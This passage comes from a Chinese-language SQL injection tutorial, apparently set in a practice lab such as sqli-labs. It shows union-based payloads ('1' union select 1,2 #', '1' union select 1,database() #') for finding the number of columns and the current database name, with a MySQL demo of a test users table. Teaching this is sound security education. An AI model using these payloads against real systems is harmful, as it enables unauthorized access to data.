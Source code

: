 很明显到3就报错了，说明字段长度是2。

##### 回显信息(判断回显位置)

要想判断回显有多少位，就要使用到关键字union来实现联合查询。

尝试使用以下payload：

```sql
1' union select 1,2 #
```

为什么要使用该语句，因为利用联合查询的机制可以查出有哪些字段和信息，在数据库中是可以直接利用该语句进行查看的。

看看该效果就知道原理了：

```sql
mysql> select * from users union select 1,2,3;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
|  1 | 2        | 3          |
+----+----------+------------+
14 rows in set (0.03 sec)

mysql> select * from users union select 1,2;
1222 - The used SELECT statements have a different number of columns
```

数字就是用来回显的，如果后面的数字不能和前面的字段数相匹配就会报错，只有匹配了才有结果。

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-22 180651-1684372364209-10.png)

#### 获取当前数据库名

要想获取到数据库的名字我们需要借助**函数database()**来实现，因为该**函数会返回当前的数据库的名字。**

payload：

```
1' union select 1,database() #
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-22 181616-1684372364209-14.png)
